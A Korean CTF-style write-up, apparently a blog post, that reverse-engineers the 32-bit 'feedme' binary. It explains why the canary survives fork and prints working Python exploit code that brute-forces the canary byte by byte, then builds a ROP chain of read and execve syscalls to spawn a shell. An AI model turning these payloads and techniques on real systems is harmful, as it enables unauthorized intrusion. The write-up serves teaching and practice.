# 취약점 분석

## 바이너리 개요



보호 기법

- stripped
- statically linked
- 32 bit

## 보호기법

- No RELRO
- Canary found
- NX enabled
- PIE disabled

## 바이너리 분석



로직 분석1

- `feedme` 바이너리의 입력 값으로 `A` 를 `0x41` 입력한 결과 SSP가 켜지는 것을 확인할 수 있으며 해당 바이너리에는 카나리가 존재하는 것을 확인할 수 있다.



로직 분석2

- 하지만 `feedme` 바이너리의 입력 값으로 `A`를 `0x40` 번 입력한 결과 SSP 켜지지 않는 것으로 보아 앞의 첫 바이트의 입력 값이 해당 다음 입력 값 즉, 문자열의 길이 값이 되는 것을 추측할 수 있다.



systemcall

- system 호출 범위를 분석하던 중 `SIGCHILD` 시그널을 보낸 후 `write` 함수를 바탕으로 `Child exit` 출력을 하는 것을 확인할 수 있으며 다시 자식 프로세스를 생성하는 것을 확인할 수 있다. 이로 인해 해당 바이너리는 `fork` 함수를 바탕으로 자식 프로세스를 생성하는 로직을 확인할 수 있다.

## main 함수 분석



main 함수 분석

```c

int __cdecl main(int argc, const char **argv, const char **envp)
{
  ssignal(14, sub_8048E24);
  alarm(0x96u);
  setvbuf((unsigned int *)stdout, 0, 2, 0);
  sub_804F820(off_80EA4BC);
  sub_80490B0();
  return 0;
}
```

- main 함수 내부에서는 `alarm`, `ssignal`, `setvbuf` 함수를 바탕으로 기본적인 초기화 과정을 거치며 `sub_80490B0` 함수를 호출하는 것을 확인할 수 있다.

## sub_80490B0 함수 분석

- `sub_80490B0` 함수를 `solve` 라 명칭하겠다.



sub_80490B0

- `0x31F` 반복을 돌면서 각각의 내부 조건을 수행하게 되는 것을 확인할 수 있다.
- `sub_806CC70` 함수를 확인해 보면 내부적으로 __lib_fork 함수를 사용하는 것을 확인할 수 있으며 해당 부분에서 자식 프로세스를 생성하는 것을 확인할 수 있다.



fork 함수

## sub_804F700 [feedme] 함수 분석

- `sub_804F700` 함수를 feedme 로 명칭하겠다.


sub_804F700 함수

- v3, v4의 변수들은 `.bss` 섹션에 존재하는 것을 확인할 수 있으며 서로 `0x20` 차이가 난다.



차이

- 해당 v4 변수를 canary로 명칭한 이유는 `gs:0x14` 주소의 카나리 값을 스택 버퍼와 스택 프레임 포인터 사이에 랜덤한 값을 삽입한 후 함수 종료 지점에서 랜덤 값 변조 여부를 검사하는 것을 확인할 수 있기 때문이다.



카나리 체크 함수

## sub_8048E42 [read_byte] 함수 분석



sub_8048E42 함수

- 지역 변수 `v1` 에 1 바이트씩 `read` 함수를 바탕으로 입력을 받는 것을 확인할 수 있다.
- `v2` 변수는 read 함수의 파일의 사이즈 이며 결국 1을 반환하겠지만 만약 실패할시 프로세스를 종료하는 것을 확인할 수 있다.
- 해당 함수의 반환 값은 사용자의 1 바이트 입력한 값이다.

## sub_8048E7E [next_read] 함수 분석



sub_8048E7E 함수

- `read_byte` 함수의 반환 값을 a2 인자로 받고, a1의 인자는 전역 변수 v3를 받는다.
- read 함수를 바탕으로 전역 변수 v3의 버퍼 공간을 사용자의 입력값 즉 바이트를 길이 값으로 매개체 삼아 버퍼 공간을 채우는 사실을 알 수 있다.
- 전역 v3의 버퍼 공간 32바이트를 넘어서는 값의 길이 검증이 없기 때문에 255 바이트까지 입력을 받을 수 있어  충분히 오버플로우가 가능한 것으로 보이지만 문제는 SSP 보호 기법으로 인해 일반적인 오버플로우가 불가능하다.

## canary 분석



카나리

- gdb를 바탕으로 카나리를  `gs:0x14`  가져와 스택상에 넣는 과정을 확인할 수 있다.
- 중요한 사실은 32bit 카나리인 경우 값이 총 4바이트이며 상위 1 바이트가 무조건 널 바이트인 것을 확인할 수 있다.
- 전역 변수 `v3` 과 카나리의 값은 각각 .bss 영역에 있고 32바이트 차이가 나기 떄문에 오버플로우를 발생시켜 카나리의 값을 임의로 변조시켜 brute-force를 통해 한 바이트씩 카나리의 값을 총 3 바이트를 알아낼 수 있다.

## fork 분석



frok 분석

- 문제는 총 반복을 `0x31F` 를 반복하면서 `fork` 함수를 바탕으로 자식 프로세스를 생성하고 내부 로직이 끝나면 죽이고 생성하는 과정을 반복한다.



fork 과정

- fork 함수를 바탕으로 부모 프로세스의 메모리 사이즈, 값을 그대로 복제하여 자식 프로세스를 생성한다.
- 부모 프로세스가 수행하던 코드 영역까지 그대로 복사를 하며 호출 이후에 부모 영역, 자식 영역이 따로 생기는 것을 알 수 있으며 canary의 값 또한 그대로 복제가 되는 것을 확인할 수 있겠다.
- 그렇다면은 반복을 돌면서 자식 프로세스가 생겨나도 brute-force 기법을 바탕으로 1 바이트씩 해당 카나리 값을 구할 수 있겠다.

# 해결 방안

## 공격

## canary brute-force

```python
canary = '\x00'
buf = p8(0x90)*0x20

def get_canary():
    global canary
    for _ in range(3):
        log.info("byte_%d"%_)
        for i in range(0xff):
            p.recvuntil("FEED ME!\n")
            len_byte = len(buf) + len(canary) + 1
            p.send(chr(len_byte)+buf + canary + chr(i))
            res = p.recvuntil('Child exit.\n')
            if 'YUM' in res:
                canary += chr(i)
                log.info("canary: "+canary.encode('hex'))
                break
    print hexdump(canary)
```

- 널 바이트는 알기 때문에 하위 3바이트를 기점으로 잡아 한 바이트 별로 `0xFF` 번 돌면서 값을 알아낼 수 가 있으며 앞에서 `feedme` 함수가 제대로 반환이 되어 `YUM` 문자열이 출력이 되었더라면 카나리값과 동일하다는 것을 확인할 수 있고 그와 반대로는 계속해서 루틴을 돌면서 찾게 될 것이다.



카나리 값 릭

## ROP sceanario

- NX 보호기법이 켜져 있기 때문에 메모리에서의 실행은 불가능하다 그렇기 때문에 ROP 해서 우회를 해야 하며 기본적으로 오버플로우를 발생 시켜 리턴 주소에 ROP 가젯을 집어넣어 EIP 조작을 진행해야 한다.
- 라이브러리가 정적 링킹되어 있기 때문에 공유 라이브러리 상에서 필요한 함수를 가져올 수 가 없기 때문에 ROP를 바탕으로 SYS_CALL을 진행하여 exploit을 시도해야 한다.

## ROP시 필요한 SYS_CALL



syscall

- `/bin/sh` 문자열이 존재하지 않기 때문에 ROP를 바탕으로 read 함수로 입력을 받을 것이며 입력을 받게 되는데 NX 보호 기법을 우회하기 위해 `.bss` 섹션의 첫 번째 주소 부분에 데이터를 삽입할 것이다.
- 마지막으로 execve syscall을 바탕으로 `.bss` 섹션에 존재하는 `/bin/sh` 문자열을 실행하게 된다면은 쉘을 딸 수 있겠다.

## ROP Code Gadget

- ROPgadget 도구를 사용하여 필요한 Gadget을 찾아 보겠다.


ROP Gadget

## ROP

```c
read(0, &.bss, length(/bin/sh\x00)) 

execve(.bss, 0, 0)
```

```python
#ROP
pppr = 0x806f370
peax = 0x80bb496
syscall = 0x806fa20
    
# read
rop = p32(peax)
rop += p32(0x3)
rop += p32(pppr)
rop += p32(len("/bin/sh\x00"))
rop += p32(e.bss())
rop += p32(0x0) 
rop += p32(syscall)

# execve    
rop+= p32(peax)
rop+= p32(0xb)
rop+= p32(pppr)
rop+= p32(0x0)
rop+= p32(0x0)
rop+= p32(e.bss())
rop+= p32(syscall)
```

## Exploit

```c
payload = p8(0x41)*0x20 + canary + p8(0x41)*0xC + rop
    
p.send(chr(len(payload))+payload)
p.send("/bin/sh\x00")
p.interactive()
```



Exploit memory

- ROP 를 바탕으로 쉘 권한을 획득할 수 있는 것을 확인할 수 있다.

```toc
```